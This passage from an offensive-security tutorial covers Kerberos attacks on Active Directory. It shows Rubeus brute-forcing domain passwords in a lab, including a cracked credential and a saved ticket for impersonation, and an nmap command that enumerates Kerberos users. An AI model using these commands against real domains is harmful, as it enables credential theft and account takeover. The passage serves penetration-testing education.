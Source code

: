 ```powershell
PS C:\Users\m0chan> .\Rubeus.exe brute /users:usernames.txt /passwords:pass.txt /domain:m0chanAd.local /outfile:brutepasswords.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.4.1

[+] Valid user => m0chan
[+] Valid user => jamie
[+] Valid user => jack
[+] M0CHAN => jack:jack123
[*] Saved TGT into jack.kirbi
```



The `brute` force module is really clever as if you crack a `Username` and `Password` combo it will automatically request a and save a `TGT` which you can inject into your current session to impersonate that user. But I will cover this later on when I discuss `Pass-The-Ticket` and `Kerberos Ticket Injection`



### [](#header-3)From Linux



Okay so surprisingly in my time and for the first time in this article I have actually had a easier experience enumerate Kerberos users from Linux and Brute forcing in comparison to Windows. 



Let's first talk about **nMap**



#### [](#header-4)nMap 



I am sure we have all heard of nMap, it's probably the most used InfoSec tool used. Period. 



Now nMap has a really nice script that allows us to enumerate users with `krb5-enum-users` This is super useful as we do not to have access to the domain only access to the `KDC`



The syntax for `krb5-enum-users` is as follows

```
nmap -verbose 4 -p 88 --script krb5-enum-users --script-args krb5-enum-users-realm='kerbrealm',userdb=user.txt <dc ip>
```
